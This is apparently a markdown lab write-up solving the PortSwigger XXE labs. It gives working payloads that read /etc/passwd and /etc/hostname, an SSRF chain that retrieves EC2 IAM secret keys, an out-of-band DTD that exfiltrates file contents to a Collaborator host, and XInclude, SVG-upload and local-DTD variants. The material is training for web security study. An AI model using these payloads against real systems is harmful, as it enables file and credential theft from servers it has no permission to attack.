# BurpSuite Labs - XML External Entity XXE


## Exploiting XXE using external entities to retrieve files

### Enunciation

This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.

To solve the lab, inject an XML external entity to retrieve the contents of the `/etc/passwd` file.

### Solution
 




```
# Burpsuite solution

1. Visit a product page, click "Check stock", and intercept the resulting POST request in Burp Suite.
2. Insert the following external entity definition in between the XML declaration and the `stockCheck` element:
    
    `<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>`
3. Replace the `productId` number with a reference to the external entity: `&xxe;`. The response should contain "Invalid product ID:" followed by the contents of the `/etc/passwd` file.
```

## Exploiting XXE to perform SSRF attacks

### Enunciation

This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.

The lab server is running a (simulated) EC2 metadata endpoint at the default URL, which is `http://169.254.169.254/`. This endpoint can be used to retrieve data about the instance, some of which might be sensitive.

To solve the lab, exploit the XXE vulnerability to perform an [SSRF attack](https://portswigger.net/web-security/ssrf) that obtains the server's IAM secret access key from the EC2 metadata endpoint.

### Solution

Capture the check stock request:



Perfom the data exfiltration chaining xxe y ssrf. The response will display the next folder that needs to be added to the request:










```
# Burpsuite solution
1. Visit a product page, click "Check stock", and intercept the resulting POST request in Burp Suite.
2. Insert the following external entity definition in between the XML declaration and the `stockCheck` element:
    
    `<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/"> ]>`
3. Replace the `productId` number with a reference to the external entity: `&xxe;`. The response should contain "Invalid product ID:" followed by the response from the metadata endpoint, which will initially be a folder name.
4. Iteratively update the URL in the DTD to explore the API until you reach `/latest/meta-data/iam/security-credentials/admin`. This should return JSON containing the `SecretAccessKey`.
```

## Blind XXE with out-of-band interaction

### Enunciation

This lab has a "Check stock" feature that parses XML input but does not display the result.

You can detect the blind XXE vulnerability by triggering out-of-band interactions with an external domain.

To solve the lab, use an external entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator.

### Solution




```
# Burpsuite solution
1. Visit a product page, click "Check stock" and intercept the resulting POST request in [Burp Suite Professional](https://portswigger.net/burp/pro).
2. Insert the following external entity definition in between the XML declaration and the `stockCheck` element. Right-click and select "Insert Collaborator payload" to insert a Burp Collaborator subdomain where indicated:
    
    `<!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN"> ]>`
3. Replace the `productId` number with a reference to the external entity:
    
    `&xxe;`
4. Go to the Collaborator tab, and click "Poll now". If you don't see any interactions listed, wait a few seconds and try again. You should see some DNS and HTTP interactions that were initiated by the application as the result of your payload.


```

## Blind XXE with out-of-band interaction via XML parameter entities

### Enunciation

This lab has a "Check stock" feature that parses XML input, but does not display any unexpected values, and blocks requests containing regular external entities.

To solve the lab, use a parameter entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator.

#### Note

To prevent the Academy platform being used to attack third parties, our firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use Burp Collaborator's default public server.

### Solution



```
1. Visit a product page, click "Check stock" and intercept the resulting POST request in [Burp Suite Professional](https://portswigger.net/burp/pro).
2. Insert the following external entity definition in between the XML declaration and the `stockCheck` element. Right-click and select "Insert Collaborator payload" to insert a Burp Collaborator subdomain where indicated:
    
    `<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN"> %xxe; ]>`
3. Go to the Collaborator tab, and click "Poll now". If you don't see any interactions listed, wait a few seconds and try again. You should see some DNS and HTTP interactions that were initiated by the application as the result of your payload.
```

##  Exploiting blind XXE to exfiltrate data using a malicious external DTD


### Enunciation

This lab has a "Check stock" feature that parses XML input but does not display the result.

To solve the lab, exfiltrate the contents of the `/etc/hostname` file.
### Solution




```
# Burpsuite solution
1. Using [Burp Suite Professional](https://portswigger.net/burp/pro), go to the [Collaborator](https://portswigger.net/burp/documentation/desktop/tools/collaborator) tab.
2. Click "Copy to clipboard" to copy a unique Burp Collaborator payload to your clipboard.
3. Place the Burp Collaborator payload into a malicious DTD file:
    
    `<!ENTITY % file SYSTEM "file:///etc/hostname"> <!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://BURP-COLLABORATOR-SUBDOMAIN/?x=%file;'>"> %eval; %exfil;`
4. Click "Go to exploit server" and save the malicious DTD file on your server. Click "View exploit" and take a note of the URL.
5. You need to exploit the stock checker feature by adding a parameter entity referring to the malicious DTD. First, visit a product page, click "Check stock", and intercept the resulting POST request in Burp Suite.
6. Insert the following external entity definition in between the XML declaration and the `stockCheck` element:
    
    `<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>`
7. Go back to the Collaborator tab, and click "Poll now". If you don't see any interactions listed, wait a few seconds and try again.
8. You should see some DNS and HTTP interactions that were initiated by the application as the result of your payload. The HTTP interaction could contain the contents of the `/etc/hostname` file.

```


## Exploiting blind XXE to retrieve data via error messages

### Enunciation

This lab has a "Check stock" feature that parses XML input but does not display the result.

To solve the lab, use an external DTD to trigger an error message that displays the contents of the `/etc/passwd` file.

The lab contains a link to an exploit server on a different domain where you can host your malicious DTD.

### Solution


```
# Burpsuite solution

1. Click "Go to exploit server" and save the following malicious DTD file on your server:
    
    `<!ENTITY % file SYSTEM "file:///etc/passwd"> <!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>"> %eval; %exfil;`
    
    When imported, this page will read the contents of `/etc/passwd` into the `file` entity, and then try to use that entity in a file path.
    
2. Click "View exploit" and take a note of the URL for your malicious DTD.
3. You need to exploit the stock checker feature by adding a parameter entity referring to the malicious DTD. First, visit a product page, click "Check stock", and intercept the resulting POST request in Burp Suite.
4. Insert the following external entity definition in between the XML declaration and the `stockCheck` element:
    
    `<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>`
    
    You should see an error message containing the contents of the `/etc/passwd` file.
```


## Exploiting XInclude to retrieve files

### Enunciation

This lab has a "Check stock" feature that embeds the user input inside a server-side XML document that is subsequently parsed.

Because you don't control the entire XML document you can't define a DTD to launch a classic [XXE](https://portswigger.net/web-security/xxe) attack.

To solve the lab, inject an `XInclude` statement to retrieve the contents of the `/etc/passwd` file.

### Solution







```
# Burpsuite solution

1. Visit a product page, click "Check stock", and intercept the resulting POST request in Burp Suite.
2. Set the value of the `productId` parameter to:
    
    `<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>`
```


## Exploiting XXE via image file upload

### Enunciation

This lab lets users attach avatars to comments and uses the Apache Batik library to process avatar image files.

To solve the lab, upload an image that displays the contents of the `/etc/hostname` file after processing. Then use the "Submit solution" button to submit the value of the server hostname.

### Solution




Afterwards, retrieve the avatar image:


```
# Burpsuite solution

- reate a local SVG image with the following content:
    
    `<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>`
- Post a comment on a blog post, and upload this image as an avatar.
- When you view your comment, you should see the contents of the `/etc/hostname` file in your image. Use the "Submit solution" button to submit the value of the server hostname.
```

Payload:

```
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```


## Exploiting XXE to retrieve data by repurposing a local DTD

### Enunciation

This lab has a "Check stock" feature that parses XML input but does not display the result.

To solve the lab, trigger an error message containing the contents of the `/etc/passwd` file.

You'll need to reference an existing DTD file on the server and redefine an entity from it.
#### Hint

Systems using the GNOME desktop environment often have a DTD at `/usr/share/yelp/dtd/docbookx.dtd` containing an entity called `ISOamso.`


### Solution


```
# Burpsuite solution

1. Visit a product page, click "Check stock", and intercept the resulting POST request in Burp Suite.
2. Insert the following parameter entity definition in between the XML declaration and the `stockCheck` element:
    
    `<!DOCTYPE message [ <!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd"> <!ENTITY % ISOamso ' <!ENTITY &#x25; file SYSTEM "file:///etc/passwd"> <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>"> &#x25;eval; &#x25;error; '> %local_dtd; ]>` This will import the Yelp DTD, then redefine the `ISOamso` entity, triggering an error message containing the contents of the `/etc/passwd` file.
```
